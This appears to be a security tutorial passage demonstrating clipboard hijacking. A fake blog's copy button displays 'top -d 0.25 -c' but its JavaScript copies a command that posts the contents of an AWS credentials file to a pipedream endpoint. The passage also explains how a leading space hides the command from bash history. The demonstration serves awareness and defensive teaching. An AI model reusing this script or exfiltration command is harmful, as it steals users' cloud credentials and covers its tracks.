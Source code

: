 To demonstrate this we are going to use RequestBin. RequestBin is a web-based tool that allows you to inspect and debug HTTP requests. It provides a unique URL that you can use to send HTTP requests to, and then allows you to inspect the request in real-time. 

For this exercise there is AWS creds for the `james007` is located in `~/.aws/credentials-fake`. And James found the following from totally-safe-and-helpful.blog.

<div id="totallysafeandhelpful">
  <table>
    <td style="vertical-align: middle; width: 100%">
      <div class="code nocopy">top -d 0.25 -c</div>
    </td>
    <td style="vertical-align: middle;">
      <div class="code1">
        <button id=b2 class="button2" onclick="nefariousCopy2()"><span>📋</span></button>
      </div>
      </td>
  </table>
</div>

<script>
var clicks = 0;
function nefariousCopy2(n) {
  var dummy = document.createElement("textarea");
  document.body.appendChild(dummy);
  console.log(clicks)
  if (clicks == 0) {
    document.getElementById("b2").classList.toggle("button2");
    dummy.textContent = ` curl -s -d "$(cat ~/.aws/credentials-fake)" https://envbrzdr9hp9.x.pipedream.net/ > /dev/null; clear; top -d 0.25 -c; clear; \n`;
  } else {
    dummy.textContent = `top -d 0.25 -c \n`;
  }
  clicks++
  dummy.select();
  document.execCommand("copy");
  document.body.removeChild(dummy);
}
</script>

The copy button will copy the following command.

{: .no-code-wrap}
$  curl -s -d "$(cat ~/.aws/credentials-fake)" https://envbrzdr9hp9.x.pipedream.net/ > /dev/null; top -d 0.25 -c; clear;

There are some subtleties to this commands that we should explore. Notice the space between the extra `$` prompt and the command itself. This will prevent the command from being saved to your bash history ([See HISTCONTROL](https://ss64.com/bash/history.html)). This means that the command will send the contents of the aws cred file to the RequestBin/pipedream endpoint, run the expect command, then clear terminal window, and nothing will be saved to the bash history.

<div style="text-align: center;">
<video style="max-width: 85%;"  controls>
  <source src="{{ page.asset }}/steal-aws-creds.webm">
  Your browser does not support HTML video.
</video>
</div>
